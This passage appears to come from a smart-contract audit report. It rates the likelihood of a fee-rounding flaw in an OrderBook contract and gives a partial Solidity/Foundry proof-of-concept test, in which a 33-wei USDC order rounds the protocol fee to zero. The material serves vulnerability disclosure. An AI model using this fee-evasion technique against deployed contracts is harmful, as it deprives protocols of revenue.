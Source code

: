 #### Likelihood

**Medium.** From a technical standpoint, the flaw is easy to trigger. Any user can create a low-priced order. However, the economic incentive to do so at scale is currently low, which reduces the practical likelihood of a major exploit.

#### Proof of Concept

The following test demonstrates that an order priced at 33 wei of USDC results in zero fees being collected by the protocol, confirming the rounding vulnerability.

**Test File:** `test/FeeRoundingVulnerabilityV2.t.sol`

```solidity

// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.0;
​
import {Test, console2} from "forge-std/Test.sol";
import {OrderBook} from "../src/OrderBook.sol";
import {MockUSDC} from "./mocks/MockUSDC.sol";
import {MockWETH} from "./mocks/MockWETH.sol";
​
/**
 * @title Fee Rounding Vulnerability PoC
 * @notice Demonstrates how integer division in fee calculations leads to revenue loss for the protocol.
 */
contract FeeRoundingExploitTest is Test {
    OrderBook book;
    MockWETH weth;
    MockUSDC usdc;
​
    address owner = makeAddr("owner");
    address seller = makeAddr("seller");
    address buyer = makeAddr("buyer");
​
    function setUp() public {
        weth = new MockWETH(18);
        usdc = new MockUSDC(6);
        
        vm.prank(owner);
        book = new OrderBook(address(weth), address(weth), address(weth), address(usdc), owner);
​
        // Mint tokens to participants
        weth.mint(seller, 10e18); // 10 WETH for multiple orders
        usdc.mint(buyer, 1000e6); // 1000 USDC
    }
​
    /// @notice This test proves that a single order with a low price (e.g., 33 wei of USDC)
    ///         results in a calculated fee of zero, allowing a trade to occur fee-free.
    function test_PoC_SingleOrderFeeEvasion() public {
        // A price of 33 will result in a fee calculation of (33 * 3) / 100, which rounds down to 0.
        uint256 exploitablePrice = 33;
        
        // --- Execution ---
        vm.startPrank(seller);
        weth.approve(address(book), 1e18);
        uint256 orderId = book.createSellOrder(address(weth), 1e18, exploitablePrice, 1 days);
        vm.stopPrank();
​
        uint256 feesBefore = book.totalFees();
        assertEq(feesBefore, 0, "Initial fees should be zero");
​
```